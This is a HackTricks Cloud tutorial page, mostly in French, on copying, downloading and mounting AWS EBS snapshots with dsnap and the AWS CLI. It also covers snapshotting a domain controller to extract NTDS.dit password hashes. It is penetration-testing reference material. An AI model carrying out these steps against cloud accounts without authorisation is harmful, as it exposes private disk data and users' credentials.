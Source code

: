 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Vérification d'un instantané localement
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Remarque** que `dsnap` ne vous permettra pas de télécharger des instantanés publics. Pour contourner cela, vous pouvez faire une copie de l'instantané dans votre compte personnel et le télécharger :
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Pour plus d'informations sur cette technique, consultez la recherche originale sur [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Vous pouvez le faire avec Pacu en utilisant le module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Vérification d'un instantané dans AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montez-le dans une VM EC2 sous votre contrôle** (il doit être dans la même région que la copie de la sauvegarde) :

Étape 1 : Un nouveau volume de la taille et du type de votre choix doit être créé en allant sur EC2 –> Volumes.

Pour pouvoir effectuer cette action, suivez ces commandes :

* Créez un volume EBS à attacher à l'instance EC2.
* Assurez-vous que le volume EBS et l'instance sont dans la même zone.

Étape 2 : L'option "attacher le volume" doit être sélectionnée en cliquant avec le bouton droit sur le volume créé.

Étape 3 : L'instance dans la zone de texte de l'instance doit être sélectionnée.

Pour pouvoir effectuer cette action, utilisez la commande suivante :

* Attachez le volume EBS.

Étape 4 : Connectez-vous à l'instance EC2 et listez les disques disponibles en utilisant la commande `lsblk`.

Étape 5 : Vérifiez si le volume contient des données en utilisant la commande `sudo file -s /dev/xvdf`.

Si la sortie de la commande ci-dessus montre "/dev/xvdf: data", cela signifie que le volume est vide.

Étape 6 : Formatez le volume au système de fichiers ext4 en utilisant la commande `sudo mkfs -t ext4 /dev/xvdf`. Alternativement, vous pouvez également utiliser le format xfs en utilisant la commande `sudo mkfs -t xfs /dev/xvdf`. Veuillez noter que vous devez utiliser soit ext4 soit xfs.

Étape 7 : Créez un répertoire de votre choix pour monter le nouveau volume ext4. Par exemple, vous pouvez utiliser le nom "newvolume".

Pour pouvoir effectuer cette action, utilisez la commande `sudo mkdir /newvolume`.

Étape 8 : Montez le volume dans le répertoire "newvolume" en utilisant la commande `sudo mount /dev/xvdf /newvolume/`.

Étape 9 : Changez de répertoire vers le répertoire "newvolume" et vérifiez l'espace disque pour valider le montage du volume.

Pour pouvoir effectuer cette action, utilisez les commandes suivantes :

* Changez de répertoire vers `/newvolume`.
* Vérifiez l'espace disque en utilisant la commande `df -h .`. La sortie de cette commande doit montrer l'espace libre dans le répertoire "newvolume".

Vous pouvez faire cela avec Pacu en utilisant le module `ebs__explore_snapshots`.

## Vérification d'un instantané dans AWS (en utilisant cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Tout utilisateur AWS possédant la permission **`EC2:CreateSnapshot`** peut voler les hachages de tous les utilisateurs du domaine en créant un **instantané du contrôleur de domaine**, en le montant sur une instance qu'il contrôle et en **exportant le fichier NTDS.dit et le registre SYSTEM** pour une utilisation avec le projet secretsdump d'Impacket.

Vous pouvez utiliser cet outil pour automatiser l'attaque : [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ou vous pourriez utiliser l'une des techniques précédentes après avoir créé un instantané.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
